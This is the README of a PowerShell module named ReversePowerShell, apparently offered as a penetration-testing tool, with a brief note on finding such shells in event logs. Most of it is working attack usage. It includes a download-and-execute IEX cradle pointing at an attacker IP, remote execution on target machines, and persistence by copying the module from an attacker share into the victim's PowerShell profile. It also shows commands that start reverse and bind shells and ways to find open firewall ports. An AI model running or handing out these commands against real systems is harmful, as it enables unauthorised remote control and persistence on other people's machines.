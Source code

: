 # ReversePowerShell
### NOW IN POWERSHELL GALLERY!!!
```powershell
Install-Module ReversePowerShell
```
---
#
Functions that can be used to gain Reverse Shells with PowerShell. Invoke-ReversePowerShell function can be used
to connect to Start-Listener as well as netcat and metasploit modules however it can not connect to Start-Bind.
I will add a tool for that in the future. This is a PowerShell module meaning it only contains functions/cmdlets to be imported into a PowerShell session. If you wish to execute one of the commands whenever the file is run just add the command you wish to execute to the bottom of the file.

#### BLUE TEAM DISCOVERY
Find-ReverseShell.ps1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover. This part is still a work in progress.

#### WAYS TO INSTALL OR IMPORT THE MODULE
This is not a requirement. It just a way of saving the module to your device if you wish to keep it around for use at later times.
Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 "$env:USERPROFILE\\WindowsPowerShell\\Modules\\ReversePowerShell"
 For PowerShell Core v6 the location of this module will need to be
 "$env:USERPROFILE\\WindowsPowerShell\\ReversePowerShell"

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```
Or in cases where you want to import the module from whatever file you are in...
```powershell
Import-Module .\ReversePowerShell.psm1
```

If your are able to use Invoke-Expresion (IEX) this module can be imported using the following command.
You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.
Notice the .ps1 extension. When using downloadString this will need to be a ps1 file to inject the module into 
memory in order to run the cmdlets.
```powershell
IEX (New-Object -TypeName Net.WebClient).downloadString("http://<attacker ipv4>/ReversePowerShell.ps1")
```

IEX is blocked from users in most cases and Import-Module is monitored by things such as ATP. Downloading files to a targerts machine is not always allowed in a penetration test. Another method to use is Invoke-Command. This can be done using the following format.
```powershell
Invoke-Command -ComputerName <target device> -FilePath .'\ReversePowerShell.ps1m' -Credential (Get-Credential)
```
This will execute the file and it's contents on the remote computer. 

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the $PROFILE file.
```powershell
Write-Verbose "Creates powershell profile for user"
New-Item -Path $PROFILE -ItemType File -Force
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE 
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
# Write-Verbose "Turning this module into the PowerShell profile will import all of the commands everytime the executing user opens a PowerShell session. This means you will need to open a new powershell session after doing this in order to access the commands. I assume this can be done by just executing the "powershell" command though you may need to have a new window opened or new reverse/bind shell opened. You can also just reload the profile
cmd /c 'copy \\<attacker ip>\MyShare\ReversePowerShell.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1

powershell.exe
# If that does not work try reloading the user profile.
& $PROFILE
```

#### START BIND SHELL
The below command can be executed to start a bind shell that connects the defined port to PowerShell.
This command binds PowerShell to port 8088. I do not have a function that can connect to this. Netcat,
ncat, metasploit, and other tools can be used to connect to this bind shell. I will add a tool in the
future. You are able to use Ctrl + C to cancel the bind listener.
```powershell
Start-Bind -Port 8088
```

#### START LISTENER
The below command was executed to start a listener on the Attack machine on port 8089. This can be
connected too using Invoke-ReversePowerShell as well as ncat, netcat, metasploit, and other tools.
The listener can be stopped or canceld by doing Ctrl + C.
```powershell
Start-Listener -Port 8089
```

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine. The below command connected to the listener over
port 8089. This will not be able to complete a connection to the Start-Bind cmdlet.
If a connection failes a loop will be started that begins a 30 second visual countdown timer.
After 30 seconds the connection will attempt to re-establish the shell.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089
```
---
# MISC INFO
#### FIREWALL AND BLOCKED PORTS
If you are not able to gain a connection it is most likely due to the Windows Firewall. If you have access on a machine as a user you will not be able to make firewall changes. You need admin priviledges for that. Use the high range ports RPC would connect to or other common port. If a range has been defined you can find the allowed ports at "HKLM:\Software\Microsoft\Rpc\Internet\ with Entry name Data Type". Otherwise when not defined any ports between 49152-65535 might work.
This command may also display the port allowed RPC port range
```cmd
netsh int ipv4 show dynamicport tcp 
```

The following commands can be used to view firewall rules. If one of these does not work.
the other might.
```powershell
# This way should work to display the firewall even if you are a user
$FirewallRule = New-Object -ComObject HNetCfg.FwPolicy2
$FirewallRule.Rules | Select-Object -Property *

# OR
Get-NetFirewallRule | Where-Object { $_.Enabled –eq ‘True’ –and $_.Direction –eq ‘Inbound’ }
Show-NetFirewallRule

# OR
cmd /c netsh advfirewall firewall show rule name=all
```

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
